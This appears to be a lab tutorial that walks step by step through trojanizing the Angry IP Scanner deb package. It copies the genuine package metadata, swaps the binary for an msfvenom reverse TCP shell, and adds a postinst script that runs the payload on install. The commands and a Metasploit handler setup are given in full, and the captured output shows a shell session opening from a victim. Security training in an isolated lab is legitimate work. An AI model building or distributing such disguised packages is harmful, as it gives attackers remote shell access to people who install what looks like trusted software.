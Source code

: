# Package a Linux Trojan
Follow the steps below to package a Metasploit Trojan payload in an Ubuntu `deb` package.
We use Kali Linux to package the `deb` because it pre-installs `Metasploit` that we need to use later.

We will use the package `ipscan`; you should `wget` this legitimate version:
```
wget https://github.com/angryip/ipscan/releases/download/3.5.5/ipscan_3.5.5_amd64.deb
```
Suppose that the package `ipscan` is downloaded at `~/Desktop`. We will create a Trojan version in a new directory:
```
mkdir ipscan_trojan
mv ipscan_3.5.5_amd64.deb ipscan_trojan/
cd ipscan_trojan/
```
We need to extract the package to a working directory and create a `DEBIAN` directory:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# dpkg -x ipscan_3.5.5_amd64.deb work
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# mkdir work/DEBIAN
```
Now in the `DEBIAN` directory, we need to create a `control` file that contains the following:
```
Package: ipscan
Section: net
Version: 3.5.5-1
Priority: optional
Architecture: amd64
Installed-Size: 1940
Depends: openjdk-11-jre | openjdk-10-jre | oracle-java10-installer | openjdk-9-jre | oracle-java9-installer | openjdk-8-jre | oracle-java8-installer | openjdk-7-jre | oracle-java7-installer
Maintainer: Anton Keks <anton@azib.net>
Description: Angry IP Scanner - fast and friendly IP Scanner
 Angry IP Scanner is a cross-platform network scanner written in Java.
 It can scan IP-based networks in any range, scan ports, and resolve
 other information.
 The program provides an easy to use GUI interface and is very extensible,
 see https://angryip.org/ for more information.
```
You can obtain the information above from the legitimate `ipscan`:
```
dpkg-deb -I /home/vagrant/Desktop/ipscan_trojan/ipscan_3.5.5_amd64.deb control
```
Note that `/home/vagrant/Desktop/ipscan_trojan/ipscan_3.5.5_amd64.deb` is the legitimate package that we are working on.
We also need to create a post-installation script. In `DEBIAN/` we will create a `postinst` file that contains the following information:
```
#!/bin/sh

sudo chmod 2755 /usr/bin/ipscan && /usr/bin/ipscan &
```
Now we create our payload:
```
(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.33.12 LPORT=443 -b "\x00" -f elf -o /home/vagrant/Desktop/ipscan_trojan/work/usr/bin/ipscan
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of elf file: 295 bytes
Saved as: /home/vagrant/Desktop/ipscan_trojan/work/usr/bin/ipscan
```
Note that the package works on x86-64 Linux (alas the parameters used in `-a` and `--platform`. We use `reverse_tcp` as the payload.
`LHOST` is the malicious host that accepts the reverse connection. In our case, the IP address of our malicious server is `192.168.33.12`.
You can know the server's IP address by running the `ifconfig` command (you can also specific the IP address in `Vagrantfile`).
You should be able to pick a random free port; we pick `443`.
Finally, we do:
```
(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# chmod 755 postinst
                                                                                                 
┌──(root💀kali)-[/home/…/Desktop/ipscan_trojan/work/DEBIAN]
└─# dpkg-deb --build /home/vagrant/Desktop/ipscan_trojan/work
dpkg-deb: building package 'ipscan' in '/home/vagrant/Desktop/ipscan_trojan/work.deb'.
```
Now we should see:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# ls
ipscan_3.5.5_amd64.deb  work  work.deb
```
We should rename `work.deb` to `ipscan_3.5.5_amd64.deb` and store it somewhere else. This is the malicious `deb` package.

# Attack
We set up the Metasploit `multi/handler` to receive the incoming connection from a victim machine to the malicious server (`192.168.33.12`).
This setup is done at the server side, which in our case is the same machine that package the malicious `dev` package.
Run the following command after `sudo su`:
```
(root💀kali)-[/home/vagrant/Desktop/ipscan_trojan]
└─# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.33.12; set LPORT 443; run; exit -y"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
LHOST => 192.168.33.12
LPORT => 443
[*] Started reverse TCP handler on 192.168.33.12:443

```
The server is now waiting for any reverse TCP connection.

When a victim machine download and install this malicious package:
```
sudo dpkg -i ipscan_3.5.5_amd64.deb
```
We should see something like this on the server side:
```
[*] Sending stage (38 bytes) to 192.168.33.8
[*] Command shell session 1 opened (192.168.33.12:443 -> 192.168.33.8:35518) at 2021-06-03 12:23:29 -0400

```

## Reference:
https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/
